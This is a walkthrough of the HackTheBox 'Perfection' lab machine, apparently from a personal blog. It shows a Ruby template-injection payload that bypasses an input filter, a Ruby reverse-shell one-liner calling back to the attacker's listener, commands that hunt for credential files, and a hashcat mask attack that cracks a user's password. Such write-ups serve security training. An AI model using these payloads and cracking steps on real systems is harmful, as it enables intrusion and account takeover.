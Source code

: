 ```yaml
---
title: HTB-Perfection
draft: false
tags:
  - htb
  - linux
  - easy
  - ssti
  - ruby
  - ruby-ssti
  - ssti-to-shell
  - hash-cracking
---
```

![alt text](https://raw.githubusercontent.com/jadu101/jadu101.github.io/v4/Images/htb/perfection/Perfection.png)

## Information Gathering
### Rustscan
Rustscan discovers SSH and HTTP running on target. 

```bash
┌──(yoon㉿kali)-[~/Documents/htb/perfection]
└─$ rustscan --addresses 10.10.11.253 --range 1-65535
.----. .-. .-. .----..---.  .----. .---.   .--.  .-. .-.
| {}  }| { } |{ {__ {_   _}{ {__  /  ___} / {} \ |  `| |
| .-. \| {_} |.-._} } | |  .-._} }\     }/  /\  \| |\  |
`-' `-'`-----'`----'  `-'  `----'  `---' `-'  `-'`-' `-'
The Modern Day Port Scanner.
________________________________________
: https://discord.gg/GFrQsGy           :
: https://github.com/RustScan/RustScan :
 --------------------------------------
😵 https://admin.tryhackme.com
<snip>
Host is up, received syn-ack (0.41s latency).
Scanned at 2024-05-16 23:39:15 EDT for 0s

PORT   STATE SERVICE REASON
22/tcp open  ssh     syn-ack
80/tcp open  http    syn-ack

Read data files from: /usr/bin/../share/nmap
Nmap done: 1 IP address (1 host up) scanned in 0.85 seconds
```
## Enumeration

### HTTP - TCP 80

The website provides service for calculating total grade in a class. 

![alt text](https://raw.githubusercontent.com/jadu101/jadu101.github.io/v4/Images/htb/perfection/image.png)


Through `/weighted-grade`, we can input data and receive total grade as a result. 

![alt text](https://raw.githubusercontent.com/jadu101/jadu101.github.io/v4/Images/htb/perfection/image-1.png)

Total grade outputs as such:

![alt text](https://raw.githubusercontent.com/jadu101/jadu101.github.io/v4/Images/htb/perfection/image-2.png)

## Ruby SSTI


Let's try fuzzing category parameter with [these payloads](https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Server%20Side%20Template%20Injection/Intruder/ssti.fuzz)for SSTI:

![alt text](https://raw.githubusercontent.com/jadu101/jadu101.github.io/v4/Images/htb/perfection/image-3.png)

Some of the payloads show different response length from the others:

![alt text](https://raw.githubusercontent.com/jadu101/jadu101.github.io/v4/Images/htb/perfection/image-4.png)


When `<%= 7 * 7 %>` payload is sent, response says Invalid query paramaters:

![alt text](https://raw.githubusercontent.com/jadu101/jadu101.github.io/v4/Images/htb/perfection/image-5.png)

![alt text](https://raw.githubusercontent.com/jadu101/jadu101.github.io/v4/Images/htb/perfection/image-6.png)

Let's try some payloads specifically for Ruby only, [from here](https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/Server%20Side%20Template%20Injection#ruby).

After some trials, we can tell that SSTI works when order of information input is changed and when we inject new line to the payload. 

Below is the payload that passes the filter:

```ruby
a
<%=system("pwd");%>
```

![alt text](https://raw.githubusercontent.com/jadu101/jadu101.github.io/v4/Images/htb/perfection/image-7.png)

I see that the payload is sent and returns **true**:

![alt text](https://raw.githubusercontent.com/jadu101/jadu101.github.io/v4/Images/htb/perfection/image-8.png)

Similarly, we can craft payload for reading /etc/passwd:

![alt text](https://raw.githubusercontent.com/jadu101/jadu101.github.io/v4/Images/htb/perfection/image-9.png)

Payload runs successfully:

![alt text](https://raw.githubusercontent.com/jadu101/jadu101.github.io/v4/Images/htb/perfection/image-10.png)

## SSTI Reverse Shell


Using [Reverse Shell Generator](https://www.revshells.com/),  we can spawn reverse shell as Susan:

`ruby -rsocket -e'spawn("sh",[:in,:out,:err]=>TCPSocket.new("10.10.14.14",1337))'`

On our netcat listener, reverse shell connection is made:

![alt text](https://raw.githubusercontent.com/jadu101/jadu101.github.io/v4/Images/htb/perfection/image-11.png)

Let's make the shell more interactive through Python:

`python3 -c 'import pty; pty.spawn("/bin/sh")'`


## Privesc: susan to root

On Susan's home directory, there a directory named **Migration**:

![alt text](https://raw.githubusercontent.com/jadu101/jadu101.github.io/v4/Images/htb/perfection/image-12.png)

Inside of it, there's a file named pupilpath_credentials.db and it shows password hash for Susan Miller:

![alt text](https://raw.githubusercontent.com/jadu101/jadu101.github.io/v4/Images/htb/perfection/image-13.png)

Using `strings`, we can obtain several more password hashes for different users:

![alt text](https://raw.githubusercontent.com/jadu101/jadu101.github.io/v4/Images/htb/perfection/image-17.png)

Before attempting to crack the above hash, let's do some more local enumeration.

### Local Enumeration

Below shows all the files owned by the current user but nothing looks interesting:

`find / -uid 1001 -type f -ls 2>/dev/null | grep -v "/proc*"`

![alt text](https://raw.githubusercontent.com/jadu101/jadu101.github.io/v4/Images/htb/perfection/image-14.png)

Below searches for files with the name of the user "susan" in it:

`find / -name "*susan*" -type f -ls 2>/dev/null`

![alt text](https://raw.githubusercontent.com/jadu101/jadu101.github.io/v4/Images/htb/perfection/image-15.png)

`/var/mail/susan` looks interesting.

Email Susan reveals the password structure for the above discovered hash:

![alt text](https://raw.githubusercontent.com/jadu101/jadu101.github.io/v4/Images/htb/perfection/image-18.png)



## Hash Cracking

Before moving on the cracking, let's prepare the hash for Susan:

![alt text](https://raw.githubusercontent.com/jadu101/jadu101.github.io/v4/Images/htb/perfection/p1.png)

Below is the hashcat command that cracks the password:

`hashcat -m 1400 hash.txt -a 3 susan_nasus_?d?d?d?d?d?d?d?d?d`

`susan_nasus_?d?d?d?d?d?d?d?d?d`: This is the mask that specifies the format of the passwords we are trying to crack.

 `?d`: This represents a digit (`0-9`). Each `?d` is a placeholder for a single digit. we have nine `?d` placeholders, which means Hashcat will try all combinations of nine-digit numbers.

Given the mask, Hashcat will try passwords like:

- `susan_nasus_000000000`
- `susan_nasus_000000001`
- `susan_nasus_123456789`
- `susan_nasus_999999999`


Hashcat successfully cracks the password:

![alt text](https://raw.githubusercontent.com/jadu101/jadu101.github.io/v4/Images/htb/perfection/p2.png)


We can not sudo into root with the cracked password:


![alt text](https://raw.githubusercontent.com/jadu101/jadu101.github.io/v4/Images/htb/perfection/image-19.png)